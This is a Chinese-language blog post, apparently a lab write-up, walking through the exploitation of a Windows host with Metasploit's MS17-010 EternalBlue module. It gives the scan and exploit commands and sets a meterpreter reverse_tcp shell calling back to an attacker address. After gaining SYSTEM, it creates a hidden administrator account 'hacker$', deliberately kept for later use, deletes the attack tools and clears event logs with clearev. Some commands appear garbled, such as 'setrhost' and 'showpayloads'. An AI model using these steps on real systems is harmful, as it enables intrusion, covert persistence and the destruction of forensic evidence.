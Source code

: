 ```yaml
---
title: 利用MSF工具,对windows进行入侵并清除痕迹
date: 2022-07-14 16:04:13
tags:
---
```


## 利用MSF工具,对windows进行入侵并清除痕迹

在终端中执行命令`msfconsole`，进入MSF控制台

MSF控制台（4）执行命令`search MS17-010`，搜索MS17-010漏洞相关模块。执行命令`use auxiliary/scanner/smb/smb_ms17_010`，查询目标主机是否包含MS17-010漏洞。执行命令`setrhost 192.168.1.13`，设置目标主机地址。执行命令`run`，进行攻击。根据查询结果可知，该目标主机包含MS17-010漏洞。

执行命令back，返回msf平台。执行命令`use exploit/windows/smb/ms17_010_eternalblue`，调用该漏洞利用模块进行攻击。命令执行后，提示符发生改变，如图5所示。

![](./利用MSF工具-对windows进行入侵并清除痕迹/1.png)

执行`showpayloads`命令，查看当前漏洞利用模块下可用的所有payload，并找到`windows/x64/meterpreter`，如图6所示。图6：显示设置的参数（6）执行命令`set payload windows/x64/meterpreter/reverse_tcp`、`setrhost 192.168.1.13`、`set lhost 192.168.1.16`，再执行命令`showoptions`，查看是否设置正确。已正确设置为目标服务器的IP地址，图7所示。

![](./利用MSF工具-对windows进行入侵并清除痕迹/2.png)

查看所有选项没问题后，执行命令`run`，进行shell反弹，执行成功后提示符会变为`meterpreter`，如图8所示。图8：成功获取shell（8）MSF发动攻击成功后会获取到目标主机的shell，为了验证该shell是目标主机的IP地址，可以执行命令`ipconfig`，查询IP地址，查询结果为`192.168.1.13`，如图9所示。目标主机的ip地址为`192.168.1.13`，如图10所示，对比结果一致。

![](./利用MSF工具-对windows进行入侵并清除痕迹/3.png)

执行命令shell，进入目标主机命令提示符中，至此证明成功拿到了目标主机的shell。执行命令whoami，查看当前用户权限。当前用户为系统权限，如图11所示。

![](./利用MSF工具-对windows进行入侵并清除痕迹/4.png)

获取到目标主机系统权限后对目标主机发动攻击，执行命令`net user hacker$ /add`，创建隐藏账户hacker。执行命令`net localgroup administrators hacker$ /add`，将隐藏账户hacker加入administrator管理员组，让其拥有管理员权限，如图12所示。图12：创建隐藏账户并加入管理员组（11）执行命令net user hacker$ ，验证隐藏账户是否创建成功，如图13所示。图13：查看hacker$用户信息2.Metasploit清除Windows日志（1）在用MSF成功对目标进行了渗透之后，不要忘记清理渗透过程中遗留下的日志。若在渗透过程中添加了账号，需要执行【netuser 添加的用户名/delete】命令进行删除；本次实验添加了隐藏用户（不易被发现），后续需要使用，所以不进行删除。（2）执行命令`cd c:\`，切换到C盘根目录下，执行命令`rd/s /q c:\hack`，删除在渗透过程中预留的工具，再执行命令`dir`，进行验证，如图14所示，hack文件夹已被删除。

执行命令`exit`，退出目标服务器的shell，如图15所示。图15：退出shell（4）执行命令`runevent_manager –i`，查看日志及其配置信息，如图16所示。图16：查看日志信息（5）执行命令`clearev`，清除系统日志，可看见清除提示，清除了应用程序日志，如图17所示。
